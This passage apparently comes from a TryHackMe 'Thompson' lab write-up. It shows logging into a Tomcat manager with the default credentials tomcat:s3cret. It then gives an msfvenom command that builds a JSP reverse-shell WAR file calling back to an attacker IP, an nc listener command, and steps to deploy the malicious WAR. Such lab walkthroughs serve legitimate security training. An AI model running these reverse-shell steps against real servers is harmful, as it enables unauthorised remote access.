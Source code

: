 
Now login to `http://thompson.thm:8080/manager` throw Credential `tomcat:s3cret` 

![](/images/TryHackMe/Thompson//Manager.png)

---

Then Create shellcode as `war file` by `msfvenom`

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.1.252 LPORT=4444 -f war -o shell.war
```

Setup Listener
```sh
nc -lvnp 4444
```

Upload & Deploy a malicious WAR

![](/images/TryHackMe/Thompson/below1.png)

Refresh page then Click on `/shell` such below:

<div class="gif-container">
<img src="/gifs/click.gif" alt="GIF" class="gif-responsive">
</div>
